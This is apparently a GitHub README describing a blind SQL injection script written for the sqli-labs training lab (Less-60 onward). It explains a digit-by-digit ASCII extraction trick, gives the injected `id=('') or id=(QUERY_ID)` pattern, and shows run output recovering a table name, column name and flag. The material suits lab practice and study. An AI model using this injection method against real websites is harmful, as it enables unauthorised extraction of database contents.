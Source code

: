 # some_scripts
some common-used scripts
一些常用的脚本

# boolean_sqli_exp.py
sqli-lab less60之后的盲注脚本
*注入原理*
0. MYSQL提供字符串切片操作，如
```sql
# mysql> select ascii('1'), (select substring(ascii('1'),1,1)), (select substring(ascii('1'),2,1));
# +------------+------------------------------------+------------------------------------+
# | ascii('1') | (select substring(ascii('1'),1,1)) | (select substring(ascii('1'),2,1)) |
# +------------+------------------------------------+------------------------------------+
# |         49 | 4                                  | 9                                  |
# +------------+------------------------------------+------------------------------------+
```

1. id=1到id=12都有值，且值不同；可参考源码中的`["Dumb","Angelina","Dummy","secure","stupid","superman","batman","admin","admin1","admin2","admin3","dhakkan","admin4"]`，因此可根据页面内容反推id， 例如当页面出现admin2，就知道id=9

2. 因此，使用分段带出ascii码值的方式注入，即将每一个字符的ascii值分成百位、十位、个位，每一位范围都是0~9，记为QUERY_ID

3. 当请求`id=('') or id=(QUERY_ID)`，数据库会执行注入的查询语句，我们可根据页面的回显确定QUERY_ID是多少，即字符ascii值的每一位数字是多少。

4. 本方法降低运算量至3次。实际上，本关130次的限制是怎么来的呢？
```markdown
表名：len('P79FGLN0JK') = 10， 
列名：len('secret_Y1P6')= 11，
flag：len('uwpeCvsrLcadsa8P7wSn9Ix4') =24*
访问次数 = (10+11+24)x3 = 125 < 130
```
所以，我更加确定这是作者想要我们使用的方法
5. 附录常见注入算法的复杂度
-----------------
|算法|复杂度|
|逐位比较|理论128次|
|位运算|理论8次|
|二分法|理论8次|
|本方法|理论3次|
-----------------

我们一位、一位地跑出结果，以获取得到第*3*位字母'c'为例，其十进制的ascii值
利用ascii(substring(query,*3*,1))中，
*运行结果*
```
markdown
boolean_sqli_exp.py'
[-]current content is:L
[-]current content is:LR
[-]current content is:LR2
[-]current content is:LR20
[-]current content is:LR20P
[-]current content is:LR20PA
[-]current content is:LR20PAL
[-]current content is:LR20PALH
[-]current content is:LR20PALHC
[-]current content is:LR20PALHCD
[-]table_name is:LR20PALHCD
[-]current content is:s
[-]current content is:se
[-]current content is:sec
[-]current content is:secr
[-]current content is:secre
[-]current content is:secret
[-]current content is:secret_
[-]current content is:secret_D
[-]current content is:secret_DO
[-]current content is:secret_DOY
[-]current content is:secret_DOYB
[+]column_name is:secret_DOYB
[-]current content is:J
[-]current content is:Jl
[-]current content is:Jll
[-]current content is:Jll9
[-]current content is:Jll98
[-]current content is:Jll98P
[-]current content is:Jll98PQ
[-]current content is:Jll98PQ8
[-]current content is:Jll98PQ8U
[-]current content is:Jll98PQ8Uy
[-]current content is:Jll98PQ8Uyk
[-]current content is:Jll98PQ8Uyka
[-]current content is:Jll98PQ8Uykak
[-]current content is:Jll98PQ8Uykakv
[-]current content is:Jll98PQ8Uykakvp
[-]current content is:Jll98PQ8Uykakvpy
[-]current content is:Jll98PQ8Uykakvpyc
[-]current content is:Jll98PQ8Uykakvpyc9
[-]current content is:Jll98PQ8Uykakvpyc9S
[-]current content is:Jll98PQ8Uykakvpyc9SP
[-]current content is:Jll98PQ8Uykakvpyc9SPs
[-]current content is:Jll98PQ8Uykakvpyc9SPst
[-]current content is:Jll98PQ8Uykakvpyc9SPstP
[-]current content is:Jll98PQ8Uykakvpyc9SPstPB
[+]FLAG is:Jll98PQ8Uykakvpyc9SPstPB
```
